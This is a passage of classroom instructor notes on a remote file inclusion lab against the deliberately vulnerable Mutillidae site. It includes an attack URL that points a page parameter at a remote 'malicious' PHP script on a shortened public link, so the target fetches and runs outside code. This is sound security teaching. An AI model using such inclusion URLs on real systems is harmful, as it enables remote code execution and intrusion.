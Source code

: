       ![The URL on the Mutillidae website includes google.com as the new remote resource.](Images/RFI4.png) 
   
3. Modify the URL to run a remote malicious PHP script.

   - Explain that because we now know that we can modify the resource that the page accesses, we will explore what will happen if the new resource is a remote malicious script rather than a webpage.
  
   - Open the following webpage: <https://tinyurl.com/y498epmz>.
 
     - This is a webpage that was designed for this class and contains raw PHP code.

     - Note that this PHP script might look familiar. This is the same script that we used in the previous LFI lesson, except that it is now hosted on a public webpage:
   
      ![A PHP script is displayed.](Images/RFI5.png) 
 
   - Let's now check whether we can use this webpage as the new remote resource.

    - Return to the browser and change the URL to the following: <http://192.168.13.27/index.php?page=https://tinyurl.com/y498epmz>.
  
      ![A red arrow points to the remote malicious script at the end of the URL.](Images/RFI6.png)
  